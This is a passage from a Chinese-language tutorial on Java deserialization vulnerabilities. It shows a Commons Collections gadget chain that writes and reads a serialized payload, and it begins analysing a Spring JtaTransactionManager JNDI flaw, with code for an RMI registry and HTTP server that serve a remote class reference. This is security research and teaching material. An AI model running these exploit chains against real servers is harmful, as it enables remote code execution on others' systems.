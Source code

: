 ```java
Transformer chainedTransformer=new ChainedTransformer(transformers);
Map normalMap=new HashMap();
normalMap.put("hackedby","imagemlt");
Map lazyMap=LazyMap.decorate(normalMap,chainedTransformer);

TiedMapEntry entry=new TiedMapEntry(lazyMap,"foo");

BadAttributeValueExpException exception=new BadAttributeValueExpException(null);
Field valField=exception.getClass().getDeclaredField("val");
valField.setAccessible(true);
valField.set(exception,entry);

File f=new File("/tmp/payload.bin");
ObjectOutputStream out=new ObjectOutputStream(new FileOutputStream(f));
out.writeObject(exception);
out.flush();
out.close();

ObjectInputStream in=new ObjectInputStream(new FileInputStream(f));
in.readObject();
```

其实我们看这个反序列化的利用链可以联想到之前wordpress的phar 反序列化RCE的漏洞也用到了一个类似的对数组进行操作的Iterator类，所以利用一个Map的附加操作也可以作为我们挖掘此类漏洞的思路。

# Spring JNDI反序列化漏洞

众所周知Spring框架是一款用途广泛影响深远的java框架，因此Spring框架一旦出现漏洞也是影响深远。

这次分析的Spring jdni反序列化漏洞主要存在于spring-tx包中，该包中的org.springframeworkl.transation.jta.JtaTransationManager类存在JDNI反序列化的问题，可以加载我们注册的RMI链接，然后将对象发送到有漏洞的服务器从而执行远程命令。

首先应当注意本文中成功执行的Poc本人仅在jdk1.7中测试成功，而jdk1.8中未测试成功。

## 什么是JNDI?

在这里的JNDI的利用方法在下面分析fastjson的反序列化漏洞时也会用到。

JNDI(Java Naming and Directory Interface)是J2EE中的重要规范之一，是一组在Java应用中访问命名和目录服务的API，使得我们能够通过名称去查询数据源从而访问需要的对象。

在这里我们给出在java下的一段提供JNDI服务的代码：

```java
System.out.println("Starting HTTP server");
HttpServer httpServer = HttpServer.create(new InetSocketAddress(8086), 0);
httpServer.createContext("/",new HttpFileHandler());
httpServer.setExecutor(null);
httpServer.start();

System.out.println("Creating RMI Registry");
Registry registry = LocateRegistry.createRegistry(1099);
Reference reference = new javax.naming.Reference("ExportObject","ExportObject","http://127.0.01:8086/");
ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(reference);
registry.bind("Object", referenceWrapper);
```
